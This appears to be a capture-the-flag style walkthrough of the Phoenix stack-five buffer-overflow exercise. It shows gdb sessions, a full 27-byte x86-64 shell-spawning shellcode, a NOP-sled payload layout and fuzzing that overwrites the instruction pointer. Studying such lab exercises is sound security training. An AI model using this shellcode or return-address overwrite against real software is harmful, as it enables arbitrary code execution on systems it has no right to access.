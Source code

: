Now run and find the address,

```c
(gdb) r
Starting program: /home/user/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

....

(gdb) print $rbp-0x80
$1 = (void *) 0x7fffffffe5d0
```

So the starting address of our ```buffer``` is ```0x7fffffffe5d0```

To pop a shell, we will be using the 27 bytes shellcode below,

```c
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

Lets exploit the binary now,

```payload = junk(nops) + shellcode + junk + base pointer + return address```

Here "nops" is referred as "No Operation" , and it is given by ```\x90```

After our ```buffer``` we need to fill our ```Base Pointer (8 bytes)``` to reach our ```$rip```

In ```$rip``` we will be filling it with ```0x7fffffffe5d0```,the starting address of our ```buffer```

Fuzzing it,

```c
user@phoenix-amd64:~$ python -c "print('A'*128+'B'*8+'C'*6)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC
user@phoenix-amd64:~$ python -c "print('A'*128+'B'*8+'C'*6)" > fuzz
user@phoenix-amd64:~$ cat fuzz
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC

In debugger,

(gdb) r < fuzz
Starting program: /home/user/stack-five < fuzz
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()

gdb) info registers rip
rip            0x434343434343      0x434343434343
```
